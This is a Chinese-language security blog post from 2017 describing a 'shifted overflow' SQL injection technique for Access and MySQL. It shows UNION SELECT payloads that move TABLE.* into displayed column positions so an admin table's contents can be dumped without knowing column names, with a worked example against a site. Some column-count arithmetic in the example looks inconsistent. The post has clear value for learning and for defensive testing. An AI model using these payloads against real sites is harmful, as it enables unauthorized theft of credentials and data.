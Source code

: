 ```yaml
---
layout: post
author: Vulkey_Chen
title: "移位溢注：告别依靠人品的偏移注入"
date: 2017-03-08
permalink: /archives/2017-03-08/1
description: "本文中我们研究了一种新的注入技术让“偏移注入不在需要人品”。在这里定义这种注入技术为：“移位溢注技术”。"
---
```


## **介绍**：

在Access数据库类型注入的时候，我们获取不到列名(前提是有表名)，一般会选择使用偏移注入，但是这种注入方式往往借助的是个人的人品，且步骤繁琐。本文中我们研究了一种新的注入技术让“偏移注入不在需要人品”。在这里定义这种注入技术为：“移位溢注技术”。
它适用于ACCESS和MYSQL（任何版本）


## **正文：**

我们先来看看普通的偏移注入步骤：

```
1.判断注入点
2.order by 判断长度
3.判断表名
4.联合查询
5.获取表中列数：**union select 1,2,3,4,..,\* from TABLE**
6.开始偏移注入：**TABLE as a inner join TABLE as b ona.id=b.id**
```

由于步骤6的方法过于需要人品值，且语句繁琐，因此在这里，我们研究新的注入技术：

首先来看看步骤6语句的整体意思：

步骤6的语句，**表示给TALBE取2个别名，然后分别用别名取查询TALBE的内容（表a和表b）；而on a.id = b.id 这样的条件是为了满足语法需求，实际并没有作用，因为相同内容的表，相同字段内容一定相同。**

这时，我们再回过头来看步骤5：

**由于联合查询中select后面添加数字的目的是为了让联合查询返回接结果和网站正常查询返回的结果的列数一致（不一致数据库会报错，页面无法显示），且\*表示通配符，可以表示整个表格所有列；因此这里通过数字来占位，并使用\*来替代TABLE中的所有列，使得联合查询可以完成，并推算出\*的值。**

这时候我们继续研究偏移注入的整体公式方法，发现即使使用多级偏移注入也需要一定的概率(人品值)才可以得到想要的结果，所以我们就尝试研究新的方法能不能替换这种不固定概率的方法。

现在我们重新整理一下SQL语句，从联合查询开始：

1.原union语句：**union select 1,2,3,..,p..,n from TABLE**

（p=页面爆出的数字，可能有多个p1,p2..；n=原网站查询的总列数；TALBE=我们获得的表名；下面开始就使用上述字母的定义）

2.新语句：

**union select 1,2,3,..,p-1,TABLE.\*,p+k,..,nfrom TABLE where** **字段名** **=** **字段内容**

--在p的位置爆出TALBE表中第一个字段的内容（其他位置还可能爆出更多内容）

（这里如果存在已知字段名可以使用，没有就不用，一般id这个字段时存在的，可以使用id = 1来显示第一行）

**union select1,2,3,..,p-2,TABLE.\*,p+k-1,..,n from TABLE where** **字段名** **=** **字段内容**

--在p的位置爆出TALBE表中第二个字段的内容（其他位置还可能爆出更多内容）

**union select 1,2,3,..,p-3,TABLE.\*,p+k-2,..,nfrom TABLE where** **字段名** **=** **字段内容**

--在p的位置爆出TALBE表中第三个字段的内容（其他位置还可能爆出更多内容）

注：这里一定是TALBE.*而不是*

3.1 **以此类推可以爆出TALBE的每一列内容。**

3.2 **如果p<k则没法爆出p+1列至k列的内容，如果n-p<k则无法爆出第1列至k-(n-p)列**。

## **原理：**

1.由原语句：**union select 1,2,3,..,p..,n-k,\* from TABLE** 可以得出该联合查询的目的是构造和原网站相同列数的查询结构，使得页面上可以显示对应的数字；这条语句相当于是做了两次查询并将它们的结果合并，第一次做了**select 1,2,3,..,n-k from TALBE** ，第二次做了**select \* from TALBE** ，然后将它们的结果合并。

这可以参考mysql的语句：**select 1,2,3,4,5,admin.\* from admin;**

![img](/images/2017-03-08/0x00.jpg)

![img](/images/2017-03-08/0x01.jpg)

![img](/images/2017-03-08/0x02.jpg)

2.只要满足原理1的要求，保障联合查询的结果和原网站查询的结果列数一致即可；因此可以将TALBE.*向前移动至页面显示的数字处来爆出TALBE列中的内容。

这可以参考mysql的语句：

```mysql
select 1,2,3,4,5,6,7,8,9,10 from newswhere id =1 union select 1,2,3,4,5,6,7,admin.* from admin;
select 1,2,3,4,5,6,7,8,9,10 from newswhere id =1 union select 1,2,3,admin.*,7,8,9,10 from admin;
```

**注：假设数字4、5在页面显示。**

由下图可知，其实数据已近查询出来，但是页面没有显示，这个是通过平移查询结果到页面显示的数字上去，即可爆出敏感字段。

![img](/images/2017-03-08/0x03.jpg)

![img](/images/2017-03-08/0x04.jpg)

## **例子：**

**步骤1：**判断注入点是否存在

![img](/images/2017-03-08/0x05.jpg)

步骤2：

![img](/images/2017-03-08/0x06.jpg)

![img](/images/2017-03-08/0x07.jpg)

**步骤3：**获得表名(必备条件)   and exists(select * from admin)

![img](/images/2017-03-08/0x08.jpg)

**步骤4：**获取不了列名（当尝试多个常用字段名以后，最终还是发现无法获得字段名）

**步骤5：**使用联合查询(union select)

![img](/images/2017-03-08/0x09.jpg)

![img](/images/2017-03-08/0x010.jpg)

步骤6：使用新注入技术方法

（1）获取admin表的列数：

```mysql
UNION SELECT1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,*from admin #--返回错误页面

UNION SELECT1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,*from admin #--返回错误页面

UNION SELECT1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,*from admin #--返回错误页面

UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,*from admin #--返回错误页面
.....

UNION SELECT1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,*from admin #--返回步骤5页面，因此admin表的列数为6
```

![img](/images/2017-03-08/0x011.jpg)

![img](/images/2017-03-08/0x012.jpg)

![img](/images/2017-03-08/0x013.jpg)

（2）由于网页中包含连续数字，表示可以显示连续的查询结果，构造SQL语句查询前四列第一行。

```mysql
UNION SELECT1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,admin.*,34,35from admin
```

![img](/images/2017-03-08/0x014.jpg)

![img](/images/2017-03-08/0x015.jpg)

```mysql
UNION SELECT1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,admin.*,34,35from admin where id = 3
```

![img](/images/2017-03-08/0x016.jpg)

## **总结**

在这里我们命名这种新注入技术为"移位溢注"。由此如果MYSQL小于5.0的情况下所具备的条件和ACCESS一样，也可以使用此方法注入，如果是MYSQL大于5.0的版本，使用此方法可以省去获得列名的步骤。

**文章研究：**gh0stkey & Seagull
